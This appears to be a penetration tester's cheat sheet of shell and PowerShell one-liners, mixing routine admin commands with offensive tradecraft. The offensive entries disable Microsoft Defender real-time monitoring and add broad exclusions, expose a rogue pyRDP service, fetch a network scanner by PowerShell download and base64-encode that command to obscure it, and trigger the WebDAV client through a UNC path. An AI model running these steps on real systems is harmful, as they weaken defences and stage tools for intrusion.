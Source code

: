 ```yaml
---
title: One-liners
description: One-liners
date: 2022-06-21
---
```


# One-liners

## Objective

One stop shop for all the one-liners that I find useful, but have to used a search engine every time.

### Remove leading and trailing white spaces

```shell
$ awk '{$1=$1};1' <file>
```

### Make dig use /etc/resolv.conf

```shell
$ dig +search +noall +answer <fqdn>
```

### Find Active Directory domain controllers by querying DNS server for LDAP SRV record

```shell
$ dig +search +noall +answer -t SRV _ldap._tcp.dc._msdcs.<domain>
```

### Generate systemd-networkd route blocks for /32

> Given a list of unique IPs.

```shell
xargs -a <IPs.list> -I{} echo -e "[Route]\nGateway=192.0.2.254\nDestination={}/32\n"
```

### Create a port forward to Incus container

```bash
$ incus config device add CONTAINER_NAME DEVICE_NAME proxy listen=tcp:HOST_IP:HOST_PORT connect=tcp:CONTAINER_IP:CONTAINER_PORT
```

The following example is used to expose a rogue pyRDP service running in a container to the host LAN

```bash
$ incus config device add pyrdp pyrdp-3389 proxy listen=tcp:0.0.0.0:3389 connect=tcp:0.0.0.0:3389
```

### Generate SSH key without a passphrase

> The same command works on Windows also

```shell
$ ssh-keygen -t ed25519 -f ./unprotected -q -N '""'
```

### SCP file to a host in an non-interactive shell

```powershell
PS > scp -o StrictHostKeyChecking=no -i <ssh private key> -P <remote port> <path to file> <username>@<fqdn>:[remote path]
```

### Map share drive through Remote Desktop session

```shell 
/usr/bin/xfreerdp /v:<host> /u:<username> /dynamic-resolution /p:<password> /drive:<share name>,<local share path> /sec:[tls,nla]
```

### Handle Microsoft Defender

```powershell
PS > Add-MpPreference -ExclusionPath 'C:\' 
PS > Add-MpPreference -ExclusionPath '\\tsclient\'
PS > Set-MpPreference -DisableRealtimeMonitoring $true
```

### [WIP] Get SoftPerfect Network Scanner

Commands to execute one line at a time

```powershell
PS > $tmp = New-TemporaryFile | Rename-Item -NewName { $_ -replace 'tmp$', 'zip' } -PassThru
PS > (New-Object Net.WebClient).DownloadFile("https://www.softperfect.com/download/files/netscan_portable.zip",$tmp.FullName)
PS > $tmp | Expand-Archive -DestinationPath . -Force
PS > remove-item $tmp

PS > https://www.softperfect.com/download/files/netscan_portable.zip
PS > Expand-Archive -Path Draftv2.zip -DestinationPath C:\Reference
```

One liner

```powershell
PS > $tmp = New-TemporaryFile | Rename-Item -NewName { $_ -replace 'tmp$', 'zip' } -PassThru; (New-Object Net.WebClient).DownloadFile('https://www.softperfect.com/download/files/netscan_portable.zip',$tmp); $tmp | Expand-Archive -DestinationPath . -Force; remove-item $tmp
```

Encode the one liner

```powershell
PS > $command = "$tmp = New-TemporaryFile | Rename-Item -NewName { $_ -replace 'tmp$', 'zip' } -PassThru;(New-Object Net.WebClient).DownloadFile('https://www.softperfect.com/download/files/netscan_portable.zip',$tmp);$tmp | Expand-Archive -DestinationPath . -Force;remove-item $tmp"
PS > $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
PS > $encodedCommand = [Convert]::ToBase64String($bytes)
```


## Start WebDAV client on Windows
If the WebClient service is set to manual (auto), it can be started by trying to browse a UNC path with an @1-65535.

```powershell
get-service -name webclient | select -property Name,Status,StartType
```

```shell
\\google.com@80\notimportant
```

